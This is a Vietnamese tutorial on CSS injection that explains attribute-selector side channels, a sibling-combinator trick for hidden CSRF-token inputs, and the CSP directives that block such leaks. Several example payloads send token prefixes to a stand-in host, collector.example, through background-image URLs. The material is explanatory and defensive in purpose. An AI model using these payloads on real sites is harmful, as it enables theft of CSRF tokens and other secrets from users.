


## 1. CSS injection là gì? 
- CSS Injection xảy ra khi dữ liệu do người dùng kiểm soát được đưa vào stylesheet hoặc HTML theo cách cho phép attacker tạo CSS tùy ý
- Ví dụ ứng dụng render:
```HTML
<div class="post">
  USER_CONTENT
</div>
```
- Nếu attacker nhập:
```
<style>
  body {
    background: red;
  }
</style>
```
- Và `<style>` không bị sanitize, attacker có thể kiểm soát CSS của toàn bộ document 
- Có ba mức injection thường gặp:

| Mức kiểm soát                     | Ví dụ                       | Khả năng  |
| --------------------------------- | --------------------------- | --------- |
| Chỉ giá trị thuộc tính            | `color: USER_INPUT`         | Hạn chế   |
| Các CSS declaration               | `USER_INPUT` bên trong `{}` | Mạnh hơn  |
| Toàn bộ stylesheet hoặc `<style>` | `<style>USER_INPUT</style>` | Mạnh nhất |

### Vì sao có CSS injection dù đã chống XSS??
- Có 2 lý do chủ yếu dẫn đến việc này là:
	- Sanitizer chặn `<script>` nhưng vẫn giữ `<style>` hoặc thuộc tính `style`
	- CSP chặn JavaScript nhưng vẫn cho phép inline CSS hoặc image/font ra ngoài
- DOMPurify hiện tại đang nói nó không phải CSS sanitizer, `<style>` và thuộc tính `style` được giữ mặc định, và CSS bên trong không được DOMPurify phân tích để chống exfiltration. Nếu không cần CSS, DOMPurify khuyến nghị `FORBID_TAGS: ['style']` và `FORBID_ATTR: ['style']`.



## 2. Cách hoạt động 
- CSS hoạt động như 1 blind oracle, giả sử trang chứa:
```HTML
<input name="secret" value="abc123">
```
- Attacker chèn:
```CSS
input[name="secret"][value^="a"] {
  background-image: url("https://collector.example/leak?prefix=a");
}

input[name="secret"][value^="b"] {
  background-image: url("https://collector.example/leak?prefix=b");
}

input[name="secret"][value^="c"] {
  background-image: url("https://collector.example/leak?prefix=c");
}
```
- Browser thực hiện:
```
Parse HTML và CSS 
--> Kiểm tra từng selector 
--> Selector [value^="a"] khớp vì giá trị bắt đầu bằng a 
--> Rule tương ứng được áp dụng
--> Browser cần tải background image 
--> Lúc này attacker sẽ nhận:
GET /leak?prefix=a HTTP/1.1
Host: colelector.example
--> Attacker suy ra ký tự đầu tiên là a
```
- Tóm lại thì workflow của nó nôm na là:


- Việc nó làm không phải kiểu CSS đọc `secret` rồi gửi đi cho attacker (mình), CSS không có biến chứa giá trị của attribute, nó chỉ tạo nhiều điều kiện kiểu:
```
Secret bắt đầu bằng a, b, c, blabla
```
- Chỉ cần 1 condition đúng là tạo ra network request 

## 3. Attribute selector 
- Các selector quan trọng trong CSS injection:

| Selector          | Ý nghĩa                        |
| ----------------- | ------------------------------ |
| `[value="abc"]`   | Bằng chính xác `abc`           |
| `[value^="abc"]`  | Bắt đầu bằng `abc`             |
| `[value$="abc"]`  | Kết thúc bằng `abc`            |
| `[value*="abc"]`  | Có chứa `abc`                  |
| `[name="secret"]` | Attribute `name` bằng `secret` |
| `[data-token]`    | Có attribute `data-token`      |
(Bạn có thể xem thêm tại: https://developer.mozilla.org/en-US/docs/Web/CSS/Reference/Selectors/Attribute_selectors)

## 4. Vì sao không cần CORS? 
- Request kiểu:
```CSS
background-image: url("https://collector.example/leak?x=a");
```
- Là yêu cầu tải tài nguyên, không phải JavaScript dùng `fetch()` rồi đọc response
- Attacker không cần browser cho phép đọc nội dung response. Attacker chỉ cần request xuất hiện trong access log của `collector.example` 
- Vì vậy:
	- Same-Origin Policy không ngăn browser gửi request 
	- CORS thường không phải lớp bảo vệ phù hợp
	- CSP mới là yếu tố quan trọng vì CSP có thể ngăn browser tải image/font/style từ origin của attacker 
- `img-src` kiểm soát nguồn image mà trang được phép tải. 

## 5. Type hidden input 
- Ta có 1 vấn đề đó là giá trị `csrf-token` thường có type là hidden, ví dụ:
```HTML
<form>
  <input
    type="hidden"
    name="csrf-token"
    value="abc123"
  >

  <input name="username">
</form>
```
- Vì vậy với payload trực tiếp như:
```CSS
input[name="csrf-token"][value^="a"] {
  background-image:
    url("https://collector.example/leak?a");
}
```
- Sẽ không bắn request tới collector mặc dù value có prefix là a là đúng vì `<input type="hidden">` không tạo rendered box. Nếu element không được render, browser không cần paint background nên có thể không tải background image.
>Giải pháp của ta là kiểm tra điều kiện trên hidden input nhưng áp dụng URL lên 1 element được render trên trang.
- Cụ thể ở đây ta sẽ dùng `sibling combinator`, ta dùng `~` như sau:
```CSS
input[name="csrf-token"][value^="a"] ~ input {
  background-image:
    url("https://collector.example/leak?prefix=a");
}
```
- `~` chọn sibling đứng sau, không cần liền kề, selector được đọc như sau:
	- Tìm hidden input có token bắt đầu là a
	- Nếu tồn tại, chọn `<input>` ngay sau nó
	- Đặt background lên input thứ 2
## 6. Ảnh hưởng của CSP 
- Cần xem tối thiểu:
```http
Content-Security-Policy:
  default-src ...;
  style-src ...;
  style-src-elem ...;
  style-src-attr ...;
  img-src ...;
  font-src ...;
```
- Với `style-src`: kiểm soát nguồn stylesheet và inline CSS. Nếu có:
```http
style-src 'self' 'unsafe-inline'
```
thì inline `<style>` thường được phép
- Nếu bỏ `unsafe-inline` và dùng `nonce`:
```http
style-src 'self' 'nonce-random-value'
```
thì `<style>` attacker chèn nhưng không có nonce sẽ bị chặn 
- `style-src` cũng kiểm soát stylesheet nhập qua `@import`.
- `img-src` kiểm soát beacon như:
```CSS
background-image: url(...);
border-image-source: url(...);
list-style-image: url(...);
```
Nếu:
```http
img-src * data:
```
thì callback ra attacker origin được phép 
Nếu:
```http
img-src 'self' data:
```
thì callback ra external thông thường bị chặn 

- `font-src` kiểm soát:
```CSS
@font-face {
  src: url(...);
}
```
Nếu:
```http
font-src 'self'
```
thì font từ attacker origin bị chặn 
- `default-src`: làm fallback cho nhiều fetch directive bị thiếu 

## 7. Điều kiện khai thác thực tế 
### a. Có CSS sink không? 
- Ví dụ:
```javascript
element.innerHTML = userContent;
```

```javascript
<div
  dangerouslySetInnerHTML={{
    __html: body
  }}
/>
```
- Hoặc markdown renderer giữ `<style>`
### b. CSS có áp dụng được không? 
- Thử 1 marker đơn giản:
```HTML
<style>
  html {
    outline: 5px solid rgb(123, 45, 67);
  }
</style>
```

### c. Những nơi secret có thể đặt:

| Vị trí                        | Kỹ thuật phù hợp                       |
| ----------------------------- | -------------------------------------- |
| HTML attribute                | Attribute selector                     |
| Hidden input                  | Sibling hoặc `:has()`                  |
| `<meta content>`              | `:has()` hoặc ép render                |
| Text node                     | Font/layout side channel               |
| HttpOnly cookie               | Không thể đọc trực tiếp bằng CSS       |
| `localStorage`                | Không thể đọc trực tiếp bằng CSS       |
| JavaScript source inline      | Ép render + font/ligature, tùy browser |
| API response chưa đưa vào DOM | CSS không thấy                         |

